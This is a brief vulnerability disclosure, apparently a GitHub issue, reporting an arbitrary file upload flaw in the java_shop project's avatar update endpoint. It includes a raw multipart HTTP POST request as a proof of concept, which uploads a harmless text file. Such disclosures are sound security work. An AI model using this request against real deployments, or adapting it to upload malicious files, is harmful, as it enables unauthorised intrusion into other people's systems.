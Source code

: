 ### Target

https://github.com/geeeeeeeek/java_shop

### Version

<=1.0

### Description

The system has an arbitrary file upload vulnerability, and attackers can upload arbitrary files by modifying the avatar function.

### Vulnerability Details

```
POST /api/myapp/index/user/update?id=92 HTTP/1.1
Host: 
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYdw0tzAYBT1BHUvM
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
TOKEN: 
sec-ch-ua-platform: "Windows"
Origin: https://shop.gitapp.cn
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Content-Length: 1200440

------WebKitFormBoundaryYdw0tzAYBT1BHUvM
Content-Disposition: form-data; name="avatar"; filename="1.txt"
Content-Type: application/octet-stream

Hello

------WebKitFormBoundaryYdw0tzAYBT1BHUvM--
```


